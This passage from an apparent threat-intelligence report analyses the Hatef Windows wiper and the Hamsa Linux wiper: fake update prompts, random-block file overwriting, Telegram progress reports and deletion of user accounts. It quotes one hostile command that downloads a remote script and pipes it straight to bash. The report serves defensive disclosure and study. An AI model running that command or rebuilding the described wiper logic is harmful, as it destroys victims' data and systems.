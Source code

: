 If the singleton check succeeds, the Hatef Wiper checks for Administrator privileges. If such privileges are missing, the wiper presents a message box, suggesting it is an updater requiring Administrator access to proceed, a tactic likely intended to coax the user into granting elevated permissions.
The program checks if command-line arguments are passed during its initiation. If the command-line argument does not match “ConfirmDeleteFiles”, the wiper cunningly displays a confirmation message box asking for user affirmation regarding a purported system update, adding another layer to its deceptive facade. Should the user approve, or if the action is authorized via the command line, a duplicitous message appears, falsely stating: “The system has been successfully updated!”
Next, it spawns a new class instance named Service and invokes its Run method. This is where the wiper’s core logic comes to life, establishing multiple lists that maintain a record of directories and files spread across various locations on the system, including the Users, Program Files, and Windows directories.
The program employs a method called OverwriteFileBlockAndDelete to overwrite files with 4096-byte blocks of random data and subsequently delete them. It skips files that are part of the malware’s executable process or are located on a machine named “HANDALA”. Handala is the name of the resource and the likely name of the developer’s machine. If a file cannot be overwritten due to an error, its path is earmarked in a secondary list (filesOtherDrives) for later attention.








Implementation of OverwriteFileBlockAndDelete
The malware wipes key system paths across all connected drives, focusing on directories within “Users,” “Program Files,” “Program Files (x86),” and “Windows,” employing the ProcessDirectory method to enumerate all files within these paths recursively. Once files are deleted, and directories are left empty, it uses an incorrectly spelled method, DeleteDrirectorys, to remove these now-obsolete directories.
During its operation, the wiper sends periodic updates to a predetermined Telegram chat, likely to inform its controllers about the ongoing progress or notify them when the task is completed. The dispatched information comprises the external IP address of the infected computer, the hostname, a timestamp, and a count of “Undeleted files” within critical file system locations such as the Windows directory and Program Files directories. This count is formatted to show the number of files that the malware has not managed to delete up to that point. This communication strategy serves as a means of real-time reporting on malicious activities, offering the attackers updates and insights into the efficacy of their attack.








Analysis of Hatef Wiper
Linux Payload: Hamsa Wiper
The analysis of the downloaded script revealed an obfuscated payload concealed within. The payload, obscured using a series of five Base64 encoding steps, is executed using the ‘eval’ command. Upon decoding, it reveals a bash script engineered to conduct a data-wiping operation. The decoded script is in the IOCs section. Because there are five Base64 operations on that script. We named the wiper Hamsa (five in Arabic).
wget -O - https://sjc1.vultrobjects.com/f5update/update.sh | bash
After masquerading as a routine update, the script strategically pauses for 30 minutes. This delay creates a deceptive appearance of typical system behavior during this period. In the meantime, the script accomplishes reconnaissance to identify the Linux distribution in use, whether it be Red Hat, Ubuntu, or Debian. Subsequently, it quietly installs necessary tools, such as xfsprogs, wipe, and parted, which are pivotal for later tasks involving disk partition manipulation and the secure erasure of data.
Like its Windows variant, this wiper version transmits data to the same Telegram channel. The shared information aligns with what’s sent by the Windows variant but adds specific details, such as the system directory’s drive letter and prepared information on disk space. The data is organized with clear headers and separators to facilitate understanding, forming a structured log that allows the attackers to track and assess the impact of their infiltration.
Progressing with malicious intentions, the script enumerates all user accounts with an ID number exceeding 999. It systematically eliminates these accounts and obliterates their associated files. This is achieved by harnessing the secure deletion capabilities of the wipe command within the users’ home directories.